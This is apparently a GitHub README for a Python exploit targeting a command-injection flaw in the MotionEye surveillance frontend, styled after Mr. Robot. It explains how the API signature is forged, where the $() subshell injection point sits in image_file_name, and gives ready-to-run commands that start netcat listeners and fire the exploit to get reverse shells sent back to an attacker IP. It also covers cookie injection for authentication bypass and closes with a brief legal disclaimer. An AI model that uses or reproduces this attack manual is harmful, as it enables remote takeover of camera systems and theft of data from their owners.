

<p align="center">
  
</p>

<p align="center">
<pre>
███████╗███████╗ ██████╗  ██████╗██╗███████╗████████╗██╗   ██╗
██╔════╝██╔════╝██╔═══██╗██╔════╝██║██╔════╝╚══██╔══╝╚██╗ ██╔╝
█████╗  ███████╗██║   ██║██║     ██║█████╗     ██║    ╚████╔╝ 
██╔══╝  ╚════██║██║   ██║██║     ██║██╔══╝     ██║     ╚██╔╝  
██║     ███████║╚██████╔╝╚██████╗██║███████╗   ██║      ██║   
╚═╝     ╚══════╝ ╚═════╝  ╚═════╝╚═╝╚══════╝   ╚═╝      ╚═╝   
</pre>
</p>

<div align="center">

# <samp>Fsociety_CVE-2025-60787</samp>

**<samp>Advanced Python Weapon | MotionEye OS Command Injection (RCE)</samp>**

<br>

<samp>Architect: <a href="https://github.com/fsoc-ghost-0x">C0deGhost</a> | Version: 5.0 (Cinematic) | <a href="https://attack.mitre.org/techniques/T1059/004/">MITRE T1059.004</a></samp>

</div>

<div align="center">


</div>

---

<details>
<summary><code>Click to view Table of Contents Fsociety</code></summary>

<br>

- [▌ 0x01_ANALYSIS_&_VULNERABILITY_REPORT](#-0x01_analysis__vulnerability_report)
- [▌ 0x02_MITRE_ATT&CK_MAPPING](#-0x02_mitre_attck_mapping)
- [▌ 0x03_FEATURES_&_ARSENAL](#-0x03_features__arsenal)
- [▌ 0x04_USAGE_&_EXECUTION](#-0x04_usage__execution)
- [▌ 0x05_EXECUTION_&_EVIDENCES](#-0x05_execution__evidences)
- [▌ 0x06_FRAMEWORK_OPTIONS](#-0x06_framework_options)
- [▌ 0x07_LEGAL_DISCLAIMER](#-0x07_legal_disclaimer)

</details>

---

## <samp>▌ <u>0x01_ANALYSIS_&_VULNERABILITY_REPORT</u></samp>

<details open>
  <summary><code>Click to expand Fsociety Intel Report...</code></summary>
  
  ### <samp>Executive Summary</samp>

  <samp>
  This framework weaponizes **CVE-2025-60787**, a critical OS Command Injection vulnerability within the MotionEye surveillance frontend (versions <= 0.43.1b4). The flaw allows an authenticated attacker to inject arbitrary shell commands via unsanitized configuration parameters (e.g., <code>image_file_name</code>). 
  
  The <code>Fsociety_CVE-2025-60787.py</code> exploit automates the entire kill chain: it authenticates, reverse-engineers the dynamic API signature, injects the payload, and establishes a multi-threaded reverse shell connection.
  </samp>

  ### <samp>Technical Deep Dive (Reverse Engineering the Engine)</samp>
  
  <samp>
  MotionEye attempts to secure its API endpoints (<code>/config/0/set/</code>) using a dynamic signature algorithm based on SHA-1 hashing of the request parameters, the body, and the user's password hash.
  </samp>
  
  **<samp>The Cryptographic Bypass:</samp>**
  <samp>
  This exploit does not rely on captured sessions. It dynamically calculates the required <code>_signature</code> parameter on the fly. 
  
  <code>raw_string = f"{method}:{sanitized_path}:{sanitized_body}:{pw_double_hash}"</code>
  <code>signature = hashlib.sha1(raw_string.encode('utf-8')).hexdigest()</code>
  </samp>

  **<samp>The Injection Vector:</samp>**
  <samp>
  Once authenticated, the exploit modifies the JSON configuration, targeting the <code>image_file_name</code> key. By wrapping the command in a subshell <code>$()</code>, the underlying <i>Motion</i> daemon executes the binary payload when it parses the configuration file upon restart.
  </samp>
  
  <div align="center">
    <br>
    <i><font color="#888888" face="monospace">They locked the front door but left the configuration files wide open.</font></i>
  </div>

</details>

<br>

## <samp>▌ <u>0x02_MITRE_ATT&CK_MAPPING</u></samp>

- **<samp>Tactic:</samp>** <samp><a href="https://attack.mitre.org/tactics/TA0002/">Execution</a></samp>
- **<samp>Technique:</samp>** <samp><a href="https://attack.mitre.org/techniques/T1059/">Command and Scripting Interpreter</a></samp>
- **<samp>Sub-Technique:</samp>** <samp><a href="https://attack.mitre.org/techniques/T1059/004/">Unix Shell</a></samp>

<br>

---

### <samp>Visual Attack Flow</samp>



<br>

## <samp>▌ <u>0x03_FEATURES_&_ARSENAL</u></samp>

- **<samp>🎬 Cinematic Interface:</samp>** <samp>Features a "Living Terminal" UI inspired by Mr. Robot. Matrix rain, system boot sequences, and reactive typing effects.</samp>
- **<samp>🔐 Dynamic Crypto Engine:</samp>** <samp>Automatically calculates the <code>_signature</code> required by MotionEye's backend, bypassing CSRF/API protections.</samp>
- **<samp>💻 Interactive Pseudo-Shell:</samp>** <samp>Includes a built-in, multi-threaded <code>--shell-mode</code> that handles socket listening and command injection simultaneously without hanging the terminal.</samp>
- **<samp>⚡ Deep Trace Verbose:</samp>** <samp>Forensic debugging mode (<code>--verbose</code>) that outputs all raw HTTP requests, headers, and cryptographic base strings.</samp>
- **<samp>🛡️ Timeout Prevention:</samp>** <samp>The listener thread is engineered to prevent socket hanging and race conditions during exploitation.</samp>
  
<div align="center">
  <br>
  <i><font color="#888888" face="monospace">Give a man a gun and he'll rob a bank. Give a man knowledge and he'll rob the world.</font></i>
</div>

<br>

## <samp>▌ <u>0x04_USAGE_&_EXECUTION</u></samp>

<details>
  <summary><code>Click to view Fsociety Operation Manual...</code></summary>
  
  ### <samp>1. Single Command Execution (Netcat Output)</samp>
  <samp>Inject a single OS command and catch the output on your local listener.</samp>
  
  ```bash
  # Start Listener in Terminal 1
  nc -nlvp 4444
  
  # Fire Exploit in Terminal 2
  python3 Fsociety_CVE-2025-60787.py --target 127.0.0.1 --username 'admin' --password '989c5a8ee87a0e9521ec81a79187d162109282f0' --Command id --netcat 4444 --lhost 10.10.16.84
  ```

  ### <samp>2. Fsociety Interactive Shell Mode</samp>
  <samp>Activates the multi-threaded C2 loop for continuous command execution without needing a separate Netcat window.</samp>
  
  ```bash
  python3 Fsociety_CVE-2025-60787.py --target 127.0.0.1 --username 'admin' --password '989c5a8ee87a0e9521ec81a79187d162109282f0' --netcat 4444 --lhost 10.10.16.84 --shell-mode
  ```

  ### <samp>3. Full Reverse Shell Payload</samp>
  <samp>Deploys a persistent reverse bash shell to your listener.</samp>
  
  ```bash
  # Start Listener in Terminal 1
  nc -nlvp 4444

  # Fire Exploit in Terminal 2
  python3 Fsociety_CVE-2025-60787.py --target 127.0.0.1 --username 'admin' --password '989c5a8ee87a0e9521ec81a79187d162109282f0' --lport 4444 --lhost 10.10.16.84
  ```

</details>

<br>

## <samp>▌ <u>0x05_EXECUTION_&_EVIDENCES</u></samp>

<details open>
  <summary><code>Click to expand Proof of Concept Gallery...</code></summary>

  ### <samp>1. The Help Protocol</samp>
  <samp>Interactive menu displaying the arsenal's capabilities.</samp>
  <p align="center">
    
  </p>

  ### <samp>2. Single Command Execution</samp>
  <samp>Injecting a single command and retrieving the payload.</samp>
  <p align="center">
    
    <br><br>
    
  </p>

  ### <samp>3. Deep Trace Analysis (Verbose Mode)</samp>
  <samp>Forensic view of the cryptographic signature generation and raw HTTP traffic.</samp>
  <p align="center">
    
  </p>
  
  ### <samp>4. Fsociety Interactive Shell Mode</samp>
  <samp>Multi-threaded execution loop keeping the session alive.</samp>
  <p align="center">
    
  </p>

  ### <samp>5. Reverse Shell Established</samp>
  <samp>The moment the target yields a full interactive bash session to the attacker.</samp>
  <p align="center">
    
    <br><br>
    
  </p>

</details>

<br>

## <samp>▌ <u>0x06_FRAMEWORK_OPTIONS</u></samp>

<details>
  <summary><code>Click to view full Command Line Interface...</code></summary>

  <br>

  ### <samp>Global Parameters</samp>

  | <samp>Flag</samp> | <samp>Type</samp> | <samp>Description</samp> |
  | :--- | :--- | :--- |
  | <samp><code>--target &lt;IP&gt;</code></samp> | <samp><font color="red">REQUIRED</font></samp> | <samp>Target URL or IP of the MotionEye instance (e.g. 127.0.0.1).</samp> |
  | <samp><code>--port &lt;PORT&gt;</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>MotionEye Port (Default: 8765).</samp> |
  | <samp><code>--username &lt;USER&gt;</code></samp> | <samp><font color="red">REQUIRED</font></samp> | <samp>Valid administrator username.</samp> |
  | <samp><code>--password &lt;PASS&gt;</code></samp> | <samp><font color="red">REQUIRED</font></samp> | <samp>User password (or Hash if accepted).</samp> |
  | <samp><code>--Cookie &lt;DATA&gt;</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Inject a full captured Cookie for authentication bypass.</samp> |
  | <samp><code>--Command &lt;CMD&gt;</code></samp> | <samp><font color="orange">CONDITIONAL</font></samp> | <samp>OS Command to inject (Ignored in --shell-mode).</samp> |
  | <samp><code>--lhost &lt;IP&gt;</code></samp> | <samp><font color="red">REQUIRED</font></samp> | <samp>Attacker IP for Reverse Shell or Netcat exfiltration.</samp> |
  | <samp><code>--lport &lt;PORT&gt;</code></samp> | <samp><font color="orange">CONDITIONAL</font></samp> | <samp>Listening port for full Reverse Shell.</samp> |
  | <samp><code>--netcat &lt;PORT&gt;</code></samp> | <samp><font color="orange">CONDITIONAL</font></samp> | <samp>Listening port to receive single command outputs.</samp> |
  | <samp><code>--shell-mode</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Activates the multi-threaded Fsociety Interactive Shell.</samp> |
  | <samp><code>--verbose</code></samp> | <samp><font color="green">OPTIONAL</font></samp> | <samp>Activates forensic mode. Shows ALL HTTP traffic and crypto logic.</samp> |

</details>

<br>

## <samp>▌ <u>0x07_LEGAL_DISCLAIMER</u></samp>
<samp>
This tool is intended for educational purposes, security research, and authorized penetration testing engagements only. The author (C0deGhost) and Fsociety are not responsible for any misuse or damage caused by this program. Use this tool ethically and responsibly.
</samp>
<br>
<i><font color="#888888" face="monospace">"Control is an illusion. We are the exploit."</font></i>

---

<p align="center">
  <samp><strong><font color="#ff4500">WE ARE FSOCIETY. WE ARE FINALLY FREE. WE ARE FINALLY AWAKE.</font></strong></samp>
</p>
